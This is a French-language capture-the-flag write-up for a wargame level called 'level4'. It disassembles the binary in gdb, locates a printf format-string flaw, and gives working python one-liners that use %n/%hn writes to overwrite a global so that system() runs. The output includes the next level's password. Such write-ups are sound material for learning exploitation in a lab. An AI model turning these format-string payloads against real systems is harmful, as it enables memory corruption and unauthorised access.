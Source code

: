 # Level4

On observe un executable a la racine `level4`

```bash
$ ./level4
Hello World
Hello World
```

On cherche donc a comprendre ce que fait l'executable

```bash
$ gdb level4 -q
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
(gdb) set disassembl
disassemble-next-line  disassembly-flavor
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   ebp
   0x080484a8 <+1>:     mov    ebp,esp
   0x080484aa <+3>:     and    esp,0xfffffff0
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave
   0x080484b3 <+12>:    ret
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   ebp
   0x08048458 <+1>:     mov    ebp,esp
   0x0804845a <+3>:     sub    esp,0x218
   0x08048460 <+9>:     mov    eax,ds:0x8049804
   0x08048465 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x08048469 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x08048471 <+26>:    lea    eax,[ebp-0x208]
   0x08048477 <+32>:    mov    DWORD PTR [esp],eax
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    eax,[ebp-0x208]
   0x08048485 <+46>:    mov    DWORD PTR [esp],eax
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    eax,ds:0x8049810
   0x08048492 <+59>:    cmp    eax,0x1025544
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    mov    DWORD PTR [esp],0x8048590
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18
   0x0804844a <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x0804844d <+9>:     mov    DWORD PTR [esp],eax
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir un idee plus clair de `level4`

```bash
$ scp -P 4242 -r level4@192.168.56.102:/home/user/level4/level4 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level4
```

_resultat sauvegarde dans [source.md](source.md)_

Meme exercice que le `level3` mais cette fois `m` est compare avec `0x1025544` et printf est dans une function

Dans un premier temps, on essaye d'afficher notre `AAAA` grace au `%x` de printf en modifiant la value `i` dans `%i$x`.

On obtient `i = 12`

```bash
$ python -c 'print "AAAA %12$x"' | ./level4
AAAA 41414141
```

On remplace `AAAA` par l'adresse de `m` et on verifie

```bash
$ python -c 'print "\x10\x98\x04\x08 %12$.8x"' | ./level4
 08049810
```

plus qu'a changer la valeur de `m` grace au `%n` de printf mais `0x1025544` est trop gros pour le faire en une fois.
Nous allons donc ecrire `0x0102` sur 2octets et `0x5544` 2 octets plus loin pour former notre nombre final `0x1025544`

```bash
$ python -c 'print "\x12\x98\x04\x08\x10\x98\x04\x08%250d%12$hn%21570d%13$hn"' | ./level4
...
                                               -1073743996
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

level4:$ su level5
Password:

level5:$
```

